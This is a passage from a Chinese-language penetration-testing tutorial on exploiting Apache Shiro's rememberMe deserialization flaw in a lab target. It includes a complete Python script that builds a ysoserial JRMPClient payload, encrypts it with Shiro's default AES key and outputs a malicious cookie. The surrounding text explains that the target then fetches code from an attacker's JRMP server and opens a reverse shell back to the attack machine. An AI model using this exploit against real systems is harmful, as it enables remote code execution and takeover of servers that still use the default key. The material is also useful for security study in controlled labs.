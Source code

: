 用python3去运行shiro.py，这个加密的长串字符串，主要就是让shiro靶场机根据rememberMe的cookie值，反序列化后，会以JRMP客户端去访问JRMP服务端。然后JRMP服务端会把恶意代码给到靶场，靶场执行后，就会把shell反弹连接给攻击机。

![image-20240901231258281](反序列化渗透与防御/image-20240901231258281.png)	

分析shiro.py源码文件

```
整体流程:
生成攻击载荷：通过 ysoserial 工具生成一个基于 JRMPClient 的 Java 反序列化 payload。
加密和编码：使用 AES 密钥对 payload 进行加密，并将加密结果与 IV 组合后进行 Base64 编码。
输出结果：生成的结果作为 Shiro 的 rememberMe cookie 值输出，可以用于实际攻击。
```

```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    # 打开JRMP客户端，连接到特定端口
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    # 用获取到的key  AES加密
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    # 生成随机16位长度的IV
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    # base64编码
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print("rememberMe={0}".format(payload.decode()))
```

bp使用repeater模块，通过post请求发给靶场。
